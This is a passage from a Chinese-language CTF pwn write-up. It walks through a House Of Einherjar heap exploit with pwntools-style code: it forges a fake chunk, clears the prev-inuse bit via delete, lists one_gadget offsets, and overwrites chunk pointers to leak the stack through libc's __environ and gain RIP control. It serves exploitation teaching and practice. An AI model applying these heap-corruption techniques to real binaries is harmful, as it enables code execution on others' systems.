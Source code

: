 
```plain
pl=p64(0x100)+p64(offset)
pl+=p64(chunk_list_addr)*4
edit(2, pl)
```

然后再fake\_chunk上设置 size 为 offset  
这里是直接写过去了，题目特点，先写到 0x602040 再 strcpy 过去，不过这个很容易就截断，所以这个题目 edit 会让人很迷

[![](assets/1701612371-3822559961a8104306c929994fa07cbe.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230701151935-a1d7a95a-17df-1.png)

```plain
delete(2)
```

这里的pre\_size和size已经对应了，然后直接delete(2) 把chunk的P位改为0，这样就满足了 House Of Einherjar 的条件

```plain
gadget = [0x45226,0x4527a,0xf03a4,0xf1247]
gadget_addr = libc_base + gadget[3]
payload = p64(0xe8) + p64(libc_base + libc.symbols["__environ"])
payload += p64(0xe8) + p64(0x602148)
add(0xe0, "t"*0xe0)
add(0x100, payload)
```

然后申请两次chunk，在储存chunk1\_ptr的地方写入 'environ' (在 libc 中有一个全局变量'environ'，储存着该程序环境变量的地址，而环境变量是储存在栈上的，所以可以泄露栈地址，所以可以控制rip了) ,然后把chunk2\_ptr 改成 chunk1\_ptr 的地址 ，方便修改
